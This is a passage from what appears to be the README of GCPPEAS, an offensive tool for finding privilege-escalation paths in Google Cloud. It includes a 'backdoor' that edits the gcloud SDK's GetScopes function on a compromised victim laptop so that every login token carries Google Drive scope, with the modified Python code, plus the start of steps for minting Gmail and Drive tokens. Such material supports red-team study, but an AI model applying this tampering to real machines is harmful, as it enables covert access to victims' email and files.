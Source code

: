 - **Attack Surface Analysis:**  
  Once permissions are collected, GCPPEAS correlates the data to pinpoint potential privilege escalation paths. Although some permissions might be directly assigned to individual resources—possibly resulting in false negatives—the tool also enumerates additional assets (like VMs, Storage, Functions, and Service Accounts) and tests their permissions to minimize such oversights.

- **Authentication Requirements:**  
  To execute GCPPEAS, you must provide either a **GCP access token** or a **JSON file with Service Account credentials**.

### "Backdoor" `gcloud` for Google Drive Access 📂☁️

By default `gcloud` doesn't generate tokens with Drive access, but it can, so here you havea  couple of options:

- **Option 1:**  
  Authenticate using the following if you know the username and password:
  ```bash
  gcloud auth login --enable-gdrive-access
  ```
  
- **Option 2:**  
  If you have compromised the victims laptop, modify the **`GetScopes`** function in the Python library (typically located at `/opt/homebrew/Caskroom/google-cloud-sdk/458.0.1/google-cloud-sdk/lib/surface/auth/login.py`) so that the `https://www.googleapis.com/auth/drive` scope is always included:
  
```python
def GetScopes(args):
    scopes = config.CLOUDSDK_SCOPES
    # Include the REAUTH scope for users with 2FA enabled.
    scopes += (config.REAUTH_SCOPE,)
    
    # Always add Google Drive scope
    scopes += (auth_util.GOOGLE_DRIVE_SCOPE,)
    if args.enable_gdrive_access:
        scopes += (auth_util.GOOGLE_DRIVE_SCOPE,)
    return scopes
```

 The next time `gcloud auth login` is run, it will include the Drive scope. This method is particularly useful if you have access to the victim's machine and can modify the library.

### Generate Gmail & Drive Token 💌☁️

Follow these steps to create an access token that grants GCPPEAS access to Gmail and Google Drive:

0. **Project Setup:**  
   - Select or create a project in the [Google Cloud Console](https://console.cloud.google.com/).
   - Optionally, use an AppSheet function to automate project creation.

1. **Enable APIs:**  
   - Enable the **Gmail API**:
     
     ```bash
     gcloud services enable gmail.googleapis.com
     ```
     